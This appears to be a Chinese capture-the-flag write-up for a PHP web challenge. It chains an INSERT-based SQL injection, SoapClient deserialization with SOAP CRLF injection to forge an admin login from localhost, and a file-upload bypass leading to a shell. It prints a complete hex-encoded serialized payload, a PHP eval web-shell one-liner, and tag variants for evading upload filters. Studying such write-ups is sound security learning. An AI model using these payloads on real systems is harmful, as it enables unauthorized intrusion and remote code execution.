


## flag


## 思路
1. 这题出题人已经给出[wp](https://xz.aliyun.com/t/2148?accounttraceid=a03f10c2bcaa4cbe8089e30baad68a99pwry)了，我记录一下自己解题遇到的点，获得admin密码之后的ssrf和反序列化利用。
2. 在通过publish界面进行insert注入时，需要利用两个浏览器。
- chrome在为登入界面，PHPSESSID值aododdaq6m8mp4fj1mn9lcvd80，验证码为`c235b`   
  

3. firefox为已登入界面，利用SOAP的CRLF漏洞可以post任意请求，Publish界面可以insert注入  
  
4. 利用[md5碰撞脚本](script/md5_crash.py)、[SOAP-CRLF漏洞利用和反序列化利用脚本](script/Soap_post.php)，通过burpsuite修改载荷。**md5(code)、cookie需要与chrome对应**，最终载荷如下。
```
signature=aaa`,0x4f3a31303a22536f6170436c69656e74223a353a7b733a333a22757269223b733a343a2261616162223b733a383a226c6f636174696f6e223b733a33393a22687474703a2f2f3132372e302e302e312f696e6465782e7068703f616374696f6e3d6c6f67696e223b733a31353a225f73747265616d5f636f6e74657874223b693a303b733a31313a225f757365725f6167656e74223b733a3231313a22777570636f0d0a436f6e74656e742d547970653a206170706c69636174696f6e2f782d7777772d666f726d2d75726c656e636f6465640d0a582d466f727761726465642d466f723a203132372e302e302e310d0a436f6f6b69653a205048505345535349443d616f646f64646171366d386d7034666a316d6e396c63766438300d0a436f6e74656e742d4c656e6774683a2035390d0a0d0a757365726e616d653d61646d696e2670617373776f72643d6e75316c61646d696e26636f64653d686c315163554932534b793357356e7754395646223b733a31333a225f736f61705f76657273696f6e223b693a313b7d)%23&mood=1
```
5. 通过firefox下用户test利用publish注入反序列化数据，伪造了特定cookie、特定code的ssrf攻击，chrome的cookie变为127.0.0.1登入的admin  
   
6. 利用admin的文件上传漏洞，当我们创建诸如-xaaaaaaa.jpg的文件后，我们不能通过 rm * or rm *.jpg 删除它，除非 rm -r {file_dir}/。
7. 上传恶意jpg，爆破文件名，getshell，数据库中获得flag
8. 还有其他非预期解看[wp](https://xz.aliyun.com/t/2148?accounttraceid=a03f10c2bcaa4cbe8089e30baad68a99pwry)


## 总结
- insert注入，publish界面的SQL注入
- 反序列化，利用SoapClient类的__call方法
- SSRF，SOAP的CRLF漏洞让我们可以构造任意post请求，达到127.0.0.1登入
- 文件上传bypass，`rm * -nname.jpg`无法删除文件
- 文件上传bypass，绕过<?php过滤，```<?=`echo '<?php eval($_REQUEST[shell])?>'>shell.php`?>```
- 文件名爆破

## php文件格式
```
<?php ?>
php默认的开始、结束标签
<? ?>
需要开启short_open_tag ，即short_open_tag = On。
<%%>
需要开启asp_tags ，即asp_tags = On。
<?= ?>
用于输出，等同于- <?php echo ; ?>可以直接使用
<%= %>
用于输出，等同于- <?php echo ; ?>，需要开启asp_tags ，才可以使用
```